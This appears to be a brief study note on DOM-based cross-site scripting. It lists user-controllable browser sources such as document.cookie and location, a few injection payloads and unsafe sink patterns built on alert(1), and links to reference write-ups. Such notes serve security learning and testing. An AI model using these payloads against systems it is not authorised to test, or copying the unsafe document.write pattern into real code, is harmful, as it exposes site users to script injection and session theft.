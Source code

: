 ## Solution
- Debug to trace :
  - premise: input and output
  - then: trying to bypass strictions

## Input
Always check the code, figure out what can be controlled by user, and what these parameter can be used.
```
var value = '<%request.getparameter("key")%>';
var value = document.cookie, url;
var value = location.search.substr(6)

document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```

## output
```
<iframe src = javascript:alert(1)>
window.location.href = "javascript:alert(1)//"
document.write('<iframe src= ' + input + '>');
inside the script code: "><script>alert(1)</script>
```

## Other Type
- [Flash ExternalInterface.call() JavaScript Injection – can make the websites vulnerable to XSS](https://soroush.secproject.com/blog/2011/03/flash-externalinterface-call-javascript-injection-%E2%80%93-can-make-the-websites-vulnerable-to-xss/)
- [postMessage XSS on a million sites](https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/)

## Referer
- [hacktricks](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/dom-xss.md)
